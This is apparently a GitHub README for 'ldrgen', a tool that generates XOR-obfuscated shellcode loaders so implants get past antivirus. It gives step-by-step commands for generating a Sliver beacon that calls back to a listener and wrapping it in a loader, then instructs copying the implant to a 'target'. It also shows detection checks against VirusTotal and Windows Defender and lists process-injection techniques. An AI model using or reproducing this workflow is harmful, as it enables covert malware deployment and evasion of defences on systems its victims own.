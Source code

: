 # ldrgen

ldrgen is a golang cli tool to generate shellcode loaders

## Usage
```
go build .
./ldrgen --help
```

## Why?
When you want to drop your beacon to disk but AV keeps nuking you, and you're too lazy to write a loader

## Usage 
```bash
git clone https://github.com/gatariee/ldrgen
cd ./ldrgen
go build -o ldr .
./ldr --help
```

## Example (calc.exe)
```bash
./ldr -bin ./dev/calc_shellcode/calc.bin -out ./output -ldr CreateThread_Xor -enc xor -key SuperSecureKey1234 --cleanup
cd output && make x64
```

## Example (sliver beacon)

### Sliver Shellcode Generation
```bash
sliver > generate beacon --http <listener_ip> --format shellcode
```
![shellcode_gen](./assets/126b19d26d4e3af6573a5f5bc2802f84.png)

### Loader Generation
```bash
./ldr -bin SEMANTIC_CUPOLA.bin -out output -ldr CreateThread_Xor -enc xor -key aahduiahsdgiasudhagsdashdasgjdhka --cleanup
```
![ldr_gen_1](./assets/b48b971be9df335205f1d3f7a9c768d4.png)
- binfile -> **SEMANTIC_CUPOLA.bin**
- output to -> **./output**
- use technique -> **CreateThread**
- with encryption: **xor**
- with key: **aahduiahsdgiasudhagsdashdasgjdhka**
- delete tempfiles after compilation: **true**

### Compilation
```bash
cd output && make x64
```
![ldr_gen_2](./assets/da7bf205f86324a0a7275d57760fb7db.png)

- compile for x64 windows, alternatively compile for x86 with `make x86` (make sure your shellcode arch is the same as the loader arch)

![ldr_gen_3](./assets/6b69c6bb7c677ff7b9ea7f2cd6ea1692.png)

### Beacon
Copy `implant_x64.exe` to your target, see: [here](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/file-transfer).

If you're worried about detections, run your implant through AV before deploying it to your target. (avoid VT if you care about getting sigged, but I'll use it cos I'm lazy.)

![vt](./assets/80f44df4910f31c74259ccfbddc7f97d.png)
*https://www.virustotal.com/gui/file/a88b7bee6e5dab73f158093d9f4ec9e556bd6984689efac44bafe3f600020b66?nocache=1*

This should be fine for Windows Defender.
![windef](./assets/9a6355fc57ae8c9afb8bf9f73bc8e71a.png)

### Beacon Callback
![sliver_callback](./assets/207cde0dd0375bfa437d937ca7414e2b.png)
![sliver_rubeus](./assets/619e6ee387d2bfe44f4927f8f53054a1.png)

### OPSEC
- This tool **helps** with **generating loaders** using templates, it **does not** help with **OPSEC**. 
- Evasive features of the loader is up to the operator to implement.

## Loader Tokens
Currently available injection tokens:
- [Inline.c](./templates/Source/Inline.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, execute inline with `( (void ( * )())exec )();`
- [Inline_Xor.c](./templates/Source/Inline_Xor.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, encrypt shellcode via [Xor.c](./templates/Source/Xor.c), execute inline with `( (void ( * )())exec )();`
- [CreateRemoteThread.c](./templates/Source/CreateRemoteThread.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READWRITE*, `WriteProcessMemory` and `CreateRemoteThread` to execute shellcode
- [CreateRemoteThreadRX.c](./templates/Source/CreateRemoteThreadRX.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READ*, `WriteProcessMemory`, `VirtualProtectEx` with *PAGE_EXECUTE_READ* and `CreateRemoteThread` to execute shellcode

## Shellcode Templates
These are globally accessible variables via loader templates, and will be replaced with the appropriate values when generating the loader source code.
1. [Shellcode.c](./templates/Source/Shellcode.c)
    - `${SHELLCODE}` -> shellcode in the format: { 0x00, 0x00, 0x00, 0x00, ... }
    - `${SHELLCODE_SIZE}` -> shellcode length in bytes
2. [Shellcode.h](./templates/Include/Shellcode.h)
    - `extern unsigned char shellcode[];`
    - `extern size_t shellcode_size;`